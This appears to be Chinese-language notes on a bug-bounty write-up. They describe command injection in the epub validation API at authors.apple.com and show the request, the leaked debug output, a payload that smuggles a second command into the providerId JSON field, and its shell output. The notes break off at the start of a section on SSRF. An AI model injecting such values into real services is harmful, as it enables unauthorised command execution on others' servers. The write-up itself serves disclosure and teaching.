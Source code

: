 
我們做的第一件事是
- 下載 sample epub file 並上傳它
- 有趣的是，我們抓的第一個 epub 文件是 version 1 format，帶有無效 xhtml
- 發布工具吐出一大串錯誤內容，讓我們知道為什麼它無法上傳/驗證


### HTTP Request:
```
POST /api/v1/validate/epub HTTP/1.1
Host: authors.apple.com
{"epubKey":"2020_8_11/10f7f9ad-2a8a-44aa-9eec-8e48468de1d8_sample.epub","providerId":"BrettBuerhaus2096637541"}
```

### HTTP Response:
```
[2020-08-11 21:49:59 UTC] <main> DBG-X:   parameter TransporterArguments = -m validateRawAssets -assetFile /tmp/10f7f9ad-2a8a-44aa-9eec-8e48468de1d8_sample.epub -dsToken **hidden value** -DDataCenters=contentdelivery.itunes.apple.com -Dtransporter.client=BooksPortal -Dcom.apple.transporter.updater.disable=true -verbose eXtreme -Dcom.transporter.client.version=1.0 -itc_provider BrettBuerhaus2096637541
```

正如你現在可能猜到的那樣，我們對 `provderId` JSON 值進行簡單的 command injection  
我們在下一次上傳時攔截了 request 並將其替換為

```
"providerId":"BrettBuerhaus2096637541||test123"
```

結果是！
```
/bin/sh: 1: test123: not found
```

接著我們改串 `ls` ...，結果

![](https://i.imgur.com/njo88pO.png)  

總結，攻擊者可能會用它來
- 在 authors.apple.com server 上執行任意命令
- 訪問 Apple 的內部網絡


這是一個很好的練習，也是一個很好的提醒
- 確保充分探索你正在測試的內容
- recon 研究中的許多名人都在談建立一個  mind maps，這就是一個例子
- 我們從 iTunes Connect 開始，開始探索圖書，並繼續擴展
- 直到我們完全了解圍繞該單一功能存在哪些服務

在你開始測試之前
- 需要找到盡可能多的 information 。如果不看 help doc
- 你可能完全錯過了網絡 epub app，因為它只是一個頁面上的 link


## iCloud 上的 full Response SSRF，讓 attacker 能看 Apple source code
- SSFR (Server-Side Request Forgery)
- Blind SSRF: 利用 SSRF 時，無法讀取 response，這類稱為 Blind SSRF
